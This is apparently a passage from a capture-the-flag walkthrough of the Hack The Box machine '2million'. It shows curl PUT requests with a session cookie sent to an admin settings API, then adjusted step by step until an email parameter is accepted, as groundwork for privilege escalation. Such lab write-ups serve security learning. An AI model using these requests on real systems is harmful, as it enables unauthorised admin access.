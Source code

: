 ```
  "message": "Invalid content type."
}
```
Ignore the `danger`we have to change the second error, with Header
```
$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" --header "Content-Type: application/json" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.8.0
> Accept: */*
> Cookie: PHPSESSID=7a0pbm0uacm9s69027tjukf5e9
> Content-Type: application/json
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Tue, 06 Aug 2024 18:43:42 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [67 bytes data]
100    56    0    56    0     0     49      0 --:--:--  0:00:01 --:--:--    49
* Connection #0 to host 2million.htb left intact
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```
It worked but now we are missing the `email`parameter. with `--data` add the `email`parameter:
```
$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" --header "Content-Type: application/json" --data '{"email":"test@test.com"}' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.8.0
> Accept: */*
> Cookie: PHPSESSID=7a0pbm0uacm9s69027tjukf5e9
> Content-Type: application/json
> Content-Length: 25
>
} [25 bytes data]
* upload completely sent off: 25 bytes
< HTTP/1.1 200 OK
```